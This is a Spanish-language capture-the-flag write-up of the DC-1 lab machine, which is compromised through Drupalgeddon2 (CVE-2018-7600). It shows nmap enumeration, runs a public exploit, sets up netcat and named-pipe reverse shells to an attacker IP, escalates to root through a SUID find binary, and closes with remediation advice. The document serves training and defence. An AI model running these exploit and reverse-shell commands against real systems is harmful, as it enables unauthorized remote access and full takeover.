> Todos los derechos reservados a la organización Drupal


> Resumen
- Identificación del servicio `Drupal 7` en el puerto 80.
- Aprovechamiento del `CVE-2018-7600` para obtener acceso (Drupalgeddon2).
- Explotación de SUID a partir del comando `find` para escalar a  root.
- Recomendaciones de seguridad para prevenir y mitigar las vulnerabilidades de está máquina.


#### Habilidades Empleadas

- Enumeración de puertos y enumeración de CMS
- Búsqueda y uso de CVEs Críticos
- Uso de comandos básicos basados en GNU/Linux
- Aprovechamiento de SUID vulnerables

#### Herramientas Utilizadas

- arp-scan
- ping
- nmap
- python3
- nc
- find (SUID)

---


## Escaneo y Análisis de Vulnerabilidades

Primeramente analizamos nuestra red local a través del comando `arp-scan`, especificando nuestra interfaz de red. El comando utilizado fue este:

``` bash
arp-scan -I eth3 -l
```

> - `arp-scan`: Permite identificar equipos conectados a la misma red que el host.
> - `-I`: interface: Especificamos la interfaz de red donde se enviarán solicitudes para identificar dispositivos.
> - `-l`: Descubrimiento de dispositivos en nuestra subred local (--localnet).




La dirección IP de interés es la `192.168.1.169`. Realizamos una prueba de conectividad a través de `ping` para verificar que es posible entablar una conexión entre la máquina objetivo y la nuestra.

``` bash
ping -c1 192.168.1.169 -R
```

> - `ping`: Envía un paquete ICMP para verificar si un equipo está activo.
> - `-c1`: Especificamos que solo se envíe un paquete y se espere a recibirlo.
> - `-R`: Solicitamos que se trace la ruta del paquete para observar si hay conexión directa o el paquete pasa por nodos durante el proceso (Los cuales pueden reducir el valor del TTL).




Podemos observar que la ruta de nuestra traza ICMP indica una conexión exitosa. Por otro lado, un valor del TTL cercano a  `64` suele implicar que nos enfrentamos a un OS `Linux/Unix` (Aunque esto no es una identificación definitiva).

---

### Reconocimiento de Puertos

Enumeramos los `65535` puertos del sistema a través de la herramienta `Nmap` (Network Mapper) para intentar identificar puertos TCP abiertos:

``` bash
nmap -p- --min-rate 5000 -Pn -n -oN nmap-scan 192.168.1.169
```

> - `-p-`: Nmap escanea los 65535 puertos TCP de un host.
> - `--min-rate`: Se envían como mínimo X cantidad de paquetes por segundo.
> - `-Pn (No Ping)`: Omite el descubrimiento de host mediante _ping_, asumiendo que todos los puertos indicados están activos.
> - `-n: (No DNS resolution)`: Se omite la resolución DNS inversa (De esta manera no pierde tiempo solicitando al servidor DNS el nombre de la dirección IP 192.168.1.169).
- `-oN archivo_nombre`: Exportamos el output de Nmap casi tal cual como nos lo muestra en la terminal.

> <= Importante =>
> En entornos empresariales se desaconseja una enumeración agresiva, puesto que enviar paquetes `tcp, icmp y/o udp` en grandes cantidades (`5000`, por ejemplo) puede provocar que sistemas de monitorización identifiquen el escaneo rápidamente  y nos bloqueen.
>
> Por otro lado, si los sistemas no soportan la recepción de grandes cantidades de paquetes, estos podrían saturar los sistemas temporalmente o el mismo escaneo podría dar falsos positivos/negativos.



### Enumeración de Puertos

Observamos los puertos `22 (ssh), 80 (http), 111 (rpcbind) y el 57182 (Desconocido actualmente)`. Ahora, podemos centrar la enumeración en estos puertos utilizando la flag `-sV`, donde `Nmap` - tras haber entablado una comunicación con un puerto - analice las respuestas para determinar la versión del servicio que hay detrás.

``` bash
nmap -sV -p22,80,111,57182 -oN ports-enumeration 192.168.1.169
```



El resultado del escaneo ahora nos expone el apartado `VERSION`. A pesar de contener datos valiosos, es posible mejorar la calidad de estos a través de la flag `-sC`, gracias a la cual `Nmap` utilizará un conjunto predeterminado de `scripts de reconocimiento` para recabar aún más información:

``` bash
nmap -p22,80,111,57182 -sCV -oN ports-enumeration 192.168.1.169
```

>Es posible concatenar las flags `-sV y -sC`, resultando en `-sCV`.



Tras un análisis de la enumeración de puertos, podemos agrupar los resultados en la siguiente tabla:

| Puerto | Servicio |                   Versión                    |                                                                                        Notas                                                                                        |
| :----: | :------: | :------------------------------------------: | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
|   22   |   ssh    | OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0) |             Versión desactualizada propensa al **CVE-2016-6210** y al **CVE-2015-5600**, aunque para esta máquina `el servicio no es el principal objetivo a explotar`              |
|   80   |   http   |        Apache httpd 2.2.22 ((Debian))        | Sus encabezados nos delatan que estamos en frente de una distribución de `Debian` y un CMS con una versión interesante: `Drupal 7 - Propenso a la vulnerabilidad` **Drupalgeddon2** |
|  111   | rpcbind  |          rpcbind 2-4 (RPC #100000)           |                                                Servicio estándar en Sistemas Unix sin información que exponga alguna vulnerabilidad                                                 |
| 57182  |  status  |               1 (RPC #100024)                |                                                                       Servicio secundario derivado de rpcbind                                                                       |
|        |          |                                              |                                                                                                                                                                                     |

> Herramientas como `whatweb` (Comando) o `Wappalyzer` (Extensión del navegador) son de gran utilidad cuando deseamos conocer únicamente las tecnologías que hay en un servicio http.

A partir de la tabla podemos definir posibles vectores de ataques:

>- Puerto 22 (SSH): La versión de este servicio podría ser explotada a través 2 CVEs, así como aplicar ataques de fuerza bruta por diccionarios (`rockyou.txt`, por ejemplo), aunque estos se omitirán debido a un vector de ataque más prometedor.
>
>- Puerto 80 (http): El Content Management System (`CMS`) utilizado es `Drupal 7`, comúnmente atacado "_in the wild_" a través de su vulnerabilidad más conocida: `Drupalgeddon 2`. Esta vulnerabilidad permite al atacante ejecutar comandos remotos debido a una falla en el `Drupal Form API`.

### Enumeración Web

En el puerto 80 se está ejecutando un servicio `http`, el cual tras visitarlo nos indica que - como ya se ha comentado - hace uso del CMS "`Drupal 7`": 




> En entornos de pentesting web es buena idea probar credenciales comunes, tales como `admin:admin` o `user:password`. Esto suele ser frecuente en sistemas antiguos y con mantenimiento irregular. 

A pesar de que el sistema web sea antiguo, no posee credenciales comunes.  A pesar de ello, hay otro campo de interés: `Create new account`:



Observamos que `Drupal 7` nos indica que "`The name admin is already taken`". Esto nos podría ser de utilidad para probar nuevamente claves comunes, pero no es el caso. Por lo tanto, seguiremos con la enumeración de la página web.

Una dirección de gran valor suele ser `/robots.txt`, puesto que le indica a los `web crawlers y spiders` de los buscadores evitar indexar determinadas urls en sus resultados; al buscar dentro de este observamos direcciones como `/admin`, pero sucede lo mismo que en el anterior intento. _Acceso denegado_.

Tras observar que no hay más puntos de los cuales obtener información, podemos pasar al análisis de la vulnerabilidad de `Drupal 7`.
###  SA-Core-2018-002 | CVE-2018-7600

Una búsqueda rápida nos arroja que la versión más actual del CMS que tenemos frente a nosotros es `Drupal 11` (Acorde a la fecha en que se redactó esto), el cual fue lanzado en **2024**. En cambio, `Drupal 7` fue lanzado el **5 de enero del 2011**

El anterior punto nos puede dar paso al siguiente razonamiento: Conforme pasan los años,  se suelen descubrir vulnerabilidades críticas en versiones de sistemas reconocidos (Como un `Drupal`).

Por lo tanto, al ser _`Drupal 7`_ una versión antigua, probablemente tenga algún número importante de vulnerabilidades.

Una búsqueda rápida en Google nos arroja lo siguiente:




[Drupal - SA-Core-2018-002](https://www.drupal.org/sa-core-2018-002)

> Es común que diversas vulnerabilidades tengan alguna PoC (`Proof of Concept`) por Internet, o inclusive exploits hechos por la comunidad para su uso en entornos controlados.

Esta vulnerabilidad (Conocida comúnmente como `Drupalgeddon 2`) se aprovecha de una vulnerabilidad del `Drupal Form API`, donde el CMS interpreta y ejecuta  comandos remotos a partir de solicitudes de tipo `GET` o `POST`, esto mediante la manipulación de campos que utilizan el prefijo #.

---
## Explotación

Una búsqueda en profundidad del `CVE-2018-7600` nos lleva finalmente a un repositorio con un exploit que se aprovecha de esta vulnerabilidad: 

Una búsqueda específica sobre la vulnerabilidad  nos lleva a un repositorio de `GitHub` que se aprovecha del ` hecho por el usuario `pimps` :

[Drupal 7 (CVE-2018-7600 / SA-CORE-2018-002)](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

> Créditos al usuario `pimps` ([Perfil de GitHub](https://github.com/pimps))

Tras haber descargado el exploit, podemos ejecutar la siguiente línea de comandos para aplicar un `RCE`:

``` bash
python3 drupa7-CVE-2018-7600.py -c 'whoami' http://192.168.1.169/
```




De esta manera comprobamos que tenemos capacidad de ejecución de código remoto. Por lo tanto, para eficientar el proceso de explotación y escalada de privilegios, entablaremos una reverse shell:

### Creación de una Reverse Shell

``` bash
> Máquina Atacante

nc -lvnp 4444
```

> - `nc`: Permite crear un sistema Cliente/Servidor para entablar una conexión (Útil para crear una reverse shell).
> - `-lvnp 4444`: Especificamos a nc que entre en modo escucha, sea de tipo verbose (Dé más detalles), no realice resolución DNS (Usando así una IP directamente y reduciendo tiempos de espera) y permita especificar un puerto para conexiones entrantes (El 4444 para nuestro caso).

``` bash
python3 drupa7-CVE-2018-7600.py -c 'nc -e /bin/bash $IP 4444' http://192.168.1.169/
```

> <= Aclaración =>
> En equipos actuales, la flag `-e` no está disponible por razones de seguridad.
>
> A pesar de ello, es posible entablar una reverse shell a través de `Named Pipes`: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc $IP 4444 > /tmp/f`.




Listamos el contenido del directorio actual de trabajo. ¡Perfecto! Solo hay un pequeño detalle: Nuestra reverse shell no es interactiva. Comandos como `CTRL + C` nos cerrarán la consola, por decir un ejemplo.

Por ello, modificamos la tty para que sea completamente interactiva.

``` bash
script /dev/null -c bash # Presionamos CTRL + Z después de esto
stty raw -echo; fg
reset xterm
export TERM=xterm
```

> - `script /dev/null -c bash`: Este comando le indica al sistema grabar lo que sucede en una sesión de terminal, descartando el registro (log) del comando script.`
> - `CTRL + Z`: Suspende temporalmente la reverse shell.
> - `stty raw -echo; fg`: Permite enviar carácteres crudos a la terminal (Permitiendo comandos como CTRL + C), así como que evita duplicar el input. Por último, fg (foreground) retorna a primer plano la shell previamente suspendida.
> - `reset xterm`: Reinicia los parámetros de control de la terminal, limpiando la pantalla y arreglando el cursor.
> - `export TERM=xterm`: Le indica al sistema remoto nuestro tipo de terminal, permitiendo así renderizar interfaces visuales (Como Vim o Nano).

Ahora ya tenemos una `shell completamente interactiva`:



## Escalada de Privilegios

Para realizar la escalada de privilegios, podemos buscar binarios con permisos SUID, los cuales son comúnmente asignados para ejecutar binarios con permisos de administrador sin necesidad de que el usuario esté en el grupo sudoers.

Una manera de buscarlos, es la siguiente:

``` bash
find / -perm -4000 -user root 2>/dev/null
```

> - `find`: Utilidad capaz de buscar en el sistema elementos con características específicas.
> - `/`: Buscamos desde el directorio raíz.
> - `-perm -4000`: Buscamos archivos con permisos SUID (Set User ID).
> - `-user root`: Especificamos que los archivos deben de pertenecerle al usuario root.
> - `2>/dev/null`: Redigirimos los errores a /dev/null para ocultarlos y solo enfocarnos en las respuestas válidas.



### Aprovechamiento del SUID de Find

Dentro de todas las respuestas, es posible observar un SUID crítico: `/usr/bin/find`. Si buscamos en GFTOBins, vemos un comando crucial:



El `SUID` del binario `find` nos permite `ejecutar el intérprete de comandos (sh)` a través del siguiente comando:

``` bash
find . -exec /bin/sh \; -quit
```

> - `-exec`: Permite la ejecución de comandos, y termina cuando llega hasta un ";".
> - `\`: Le indica a "find" hasta dónde terminan los argumentos de la flag "-exec", pero permitiendo ejecutar otros comandos luego del cierre (La barra invertida evita que la terminal lo interpréte y el comando "find" quede a medias).
> - `-quit`: Le especifica al comando "find" que termine la ejecución a la primera coincidencia.

> Es relevante destacar que el bit `SUID` en el comando `find` permite ejecutar los comandos posteriores (Como /bin/sh) con los privilegios del dueño del archivo, es decir, _`root`_.



Tenemos permisos de administrador! Para la última comprobación, podemos intentar leer la flag que se encuentra en el directorio `/root`: 

> Well done!!!!
> 
> Hopefully you've enjoyed this and learned some new skills.
> 
> You can let me know what you thought of this little journey 
> by contacting me via Twitter - @DCAU7

## Impacto

El atacante con permisos de administrador obtiene las capacidades de:

> - Modificación de archivos del sistema.
> - Acceso a la base de datos de Drupal 7, permitiendo modificar las contraseñas de usuarios y robo de datos sensibles.
> - Entablar persistencia entre sesiones futuras.
> - Capacidad de movimiento lateral hacia otros sistemas de la red.

---
## Resumen

La máquina DC-1 presentó una serie de vulnerabilidades críticas (**_No todas expuestas en esta redacción_**) que permitieron técnicas como `RCE`, capacidad de entablar una `revere shell`,o credenciales débiles para el servicio `SSH`, por lo que a continuación se expondrán algunas pautas para evitar esta clase de fallos de seguridad.

### Descubrimientos 


> Drupalgeddon2

| ID  |          **Vulnerabilidad**          |                  **Gravedad**                  |                                                                                                                             Descripción                                                                                                                              |
| :-: | :----------------------------------: | :--------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF1 | Ejecución de Código Arbitrario (RCE) |  Crítica  | Un atacante puede inyectar un `render array` a través de un método `POST`, explotando una vulnerabilidad del `Drupal Form API`. Esto se debe a que no se sanitizan las solicitudes que comienzan con `#` , permitiendo ejecutar funciones PHP (Ataque de tipo `RCE`) |

 
Medidas inmediatas:

> Para Drupal 7.0 se insta a actualizar a la versión `7.58 o posteriores`. Es la manera más viable de solucionar esta brecha de seguridad crítica.

> Debido a que el servicio se mantuvo en la `versión 7.0`, se deben aplicar medidas **Post-Incidente**, lo cual incluye: Verificar la integridad de las configuraciones de archivos como `.php`, así como limpiar el caché para eliminar cualquier rastro de posibles `render arrays` utilizados por atacantes



> Debian 7

| ID  |                **Vulnerabilidad**                 |               **Gravedad**               |                                                                                           Descripción                                                                                           |
| :-: | :-----------------------------------------------: | :--------------------------------------: | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF2 | Uso de componentes con vulnerabilidades conocidas |  Alta  | La versión de Debian del sistema ha llegado a su `End Of Life`, por lo que es seriamente desaconsejado debido a que puede ser afectado ante cualquier vulnerabilidad descubierta desde su `EOL` |

 
Medidas inmediatas:

>Para la versión de Debian 7 se insta a migrar el sistema a una distribución con soporte de larga duración como `debian 12/13` o `Ubuntu 22.04.4 LTS`.



> SSH 6.0p1

| ID  |                **Vulnerabilidad**                 |               **Gravedad**               |                                                                                                                                           Descripción                                                                                                                                           |
| :-: | :-----------------------------------------------: | :--------------------------------------: | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF3 | Uso de componentes con vulnerabilidades conocidas |  Alta  | El servicio SSH es de una versión antigua, así como que permite autenticación por contraseñas, no posee un límite de  intentos, no bloquea IPs sospechosas y uno de los usuarios posee una contraseña débil, por lo que técnicas como `Dictionary Attack o Brute Force` son totalmente posibles |

 
Medidas inmediatas:

> Para la versión 6.0p1 de `OpenSSH`, si no es posible cambiar de sistema, se insta a: 
> 
> - Utilizar `claves SSH` para la autenticación de usuarios. 
> - Deshabilitar la opción `PermitRootLogin` .
> - Habilitar `MaxAuthTries` estableciendo cantidades pequeñas de intentos .
> - Utilizar una `whitelist` de IPs entrantes.



> Hard-coded credentials

| ID  |  **Vulnerabilidad**   |                **Gravedad**                |                                                                                       Descripción                                                                                        |
| :-: | :-------------------: | :----------------------------------------: | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
| MF4 | Secretos hardcodeados |  Media  | El archivo de configuración de `Drupal 7` posee credenciales harcodeadas, permitiendo al atacante realizar técnicas de movimiento lateral que afecten al sistema web y la base de datos. |

 
Medidas inmediatas:

>-  Utilizar variables de entorno del sistema o gestores de secretos.
>- Establecer permisos restrictivos para que solo usuarios con permisos de administración puedan leerlo.


